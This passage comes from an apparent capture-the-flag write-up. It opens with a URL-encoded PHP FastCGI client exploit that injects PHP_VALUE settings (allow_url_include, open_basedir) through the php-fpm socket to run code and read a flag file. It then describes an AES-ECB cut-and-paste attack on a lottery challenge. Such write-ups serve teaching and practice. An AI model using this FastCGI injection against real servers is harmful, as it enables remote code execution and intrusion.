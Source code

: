 ```
20%20%20%20%20%20%20%20%20%20%20%20%20%20throw%20new%20Exception%28%27New%20request%20rejected%3B%20too%20busy%20%5BOVERLOADED%5D%27%29%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20break%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20case%20self%3A%3AUNKNOWN_ROLE%3A%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20throw%20new%20Exception%28%27Role%20value%20not%20known%20%5BUNKNOWN_ROLE%5D%27%29%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20break%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20case%20self%3A%3AREQUEST_COMPLETE%3A%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20return%20%24response%3B%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%0A%7D%0A%0A%24connect_path%20%3D%20%27unix%3A%2f%2f%2fvar%2frun%2fphp-fpm.sock%27%3B%0A%24port%20%3D%20-1%3B%0A%24filepath%20%3D%20%27%2fvar%2fwww%2fhtml%2findex.php%27%3B%0A%24req%20%3D%20%27%2f%27%20.%20basename%28%24filepath%29%3B%0A%24uri%20%3D%20%24req%3B%0A%24client%20%3D%20new%20FCGIClient%28%24connect_path%2C%20%24port%29%3B%0A%24php_value%20%3D%20%22allow_url_include%20%3D%20On%5Cnopen_basedir%20%3D%20%2f%22%3B%0A%24params%20%3D%20array%28%20%20%20%20%20%20%20%0A%20%20%20%20%20%20%20%20%27GATEWAY_INTERFACE%27%20%3D%3E%20%27FastCGI%2f1.0%27%2C%0A%20%20%20%20%20%20%20%20%27REQUEST_METHOD%27%20%20%20%20%3D%3E%20%27GET%27%2C%0A%20%20%20%20%20%20%20%20%27SCRIPT_FILENAME%27%20%20%20%3D%3E%20%24filepath%2C%0A%20%20%20%20%20%20%20%20%27SCRIPT_NAME%27%20%20%20%20%20%20%20%3D%3E%20%24req%2C%0A%20%20%20%20%20%20%20%20%27REQUEST_URI%27%20%20%20%20%20%20%20%3D%3E%20%24uri%2C%0A%20%20%20%20%20%20%20%20%27DOCUMENT_URI%27%20%20%20%20%20%20%3D%3E%20%24req%2C%0A%20%20%20%20%20%20%20%20%27PHP_VALUE%27%20%20%20%20%20%20%20%20%20%3D%3E%20%24php_value%2C%0A%20%20%20%20%20%20%20%20%27SERVER_SOFTWARE%27%20%20%20%3D%3E%20%27kaibro-fastcgi-rce%27%2C%0A%20%20%20%20%20%20%20%20%27REMOTE_ADDR%27%20%20%20%20%20%20%20%3D%3E%20%27127.0.0.1%27%2C%0A%20%20%20%20%20%20%20%20%27REMOTE_PORT%27%20%20%20%20%20%20%20%3D%3E%20%279985%27%2C%0A%20%20%20%20%20%20%20%20%27SERVER_ADDR%27%20%20%20%20%20%20%20%3D%3E%20%27127.0.0.1%27%2C%0A%20%20%20%20%20%20%20%20%27SERVER_PORT%27%20%20%20%20%20%20%20%3D%3E%20%2780%27%2C%0A%20%20%20%20%20%20%20%20%27SERVER_NAME%27%20%20%20%20%20%20%20%3D%3E%20%27localhost%27%2C%0A%20%20%20%20%20%20%20%20%27SERVER_PROTOCOL%27%20%20%20%3D%3E%20%27HTTP%2f1.1%27%2C%0A%20%20%20%20%20%20%20%20%29%3B%0Aecho%20%22Call%3A%20%24uri%5Cn%5Cn%22%3B%0Aecho%20%24client-%3Erequest%28%24params%2C%20NULL%29%3B

echo base64_encode(file_get_contents("/flag.so"));
```

The flag is `flag{FFi_1s_qu1T3_DANg1ouS}`.

### lottery

This is more like a crypto challenge.

The lottery is encrypted using AES-ECB mode, so the idea here is cut-and-paste attack.

```
0  { 'lottery': '19 | d5b3a52053c345b1f6581f62af2cc374
1  7e66b8-c0d5-4f05 | bdd3e814eaf73146bb0dbe98a9d61508
2  -962f-c18e2c7d82 | 7dcecb8a3ccd69b0c5a578f3fa6ba7fd
3  ef', 'user': '32 | c6802e48a5597c58a876d86be98bb6e5
4  edaac1-c828-4b41 | b22150f5c3204374f0a03a1906430cc1
5  -9da0-6d32cfa7c5 | 1e14e0ce6e77c2c1aa2482a02e439e96
6  a6', 'coin': 5 } | 08fa0515a89e650da6e5ad932497af4e
7  (padding)        | f6d2b7dade603f007022388485ecc598
```

The plaintext and ciphertext are shown above. Note there are some weird space between. The coin here is not useful because the server will only give the corresponding coin according to the lottery id.

The idea is cut-and-paste the block to overwrite the `user`. Then if we register a quantity of users, we can profit!
